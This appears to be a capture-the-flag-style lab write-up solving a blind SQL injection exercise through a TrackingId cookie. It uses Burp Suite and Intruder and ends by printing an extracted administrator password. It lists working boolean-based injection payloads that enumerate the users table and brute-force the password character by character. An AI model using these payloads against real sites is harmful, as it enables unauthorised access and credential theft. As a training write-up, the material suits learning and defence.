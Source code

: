 ![image](https://github.com/user-attachments/assets/a02e3df0-23e6-4d69-a493-24066679c18e)# Problem

![image](https://github.com/user-attachments/assets/ceed0dcb-2818-4eea-a02f-5c4799d80bfc)

# Solution

Start with **BurpSuite** and intercept the request, looking for the _tracking id_ cookie.

![image](https://github.com/user-attachments/assets/40a9db98-7833-4bb5-a369-fd96dc670cfc)

That in particular.

Then, run the following commands:

```
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='1 // Verify that SQLi works
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='2 // Verify it works, but this time no response message
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users LIMIT 1)='a // Verify users table is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator')='a //Verify that admin is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>[1,2,3,...20])='a //Verify password length
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a //Verify character is at that position in password
```

Take note of the last command, that's the payload we'll use to bruteforce this.

Speaking of, send the request to _Intruder_ and do the following:

**Intruder Presets:**

![image](https://github.com/user-attachments/assets/f71c23c8-b63f-448e-9aee-3c63f91dc778)

**Payloads:**

```
Payload 1: [1-20]
Payload 2: [a-z, 0-9]
```

**Brute Forcer Results**

![image](https://github.com/user-attachments/assets/3bd995b3-d6c2-4ee1-a04d-03f704783cb5)

**Username: administrator**
**Password: a2k8q5haz214i3smm5m1**
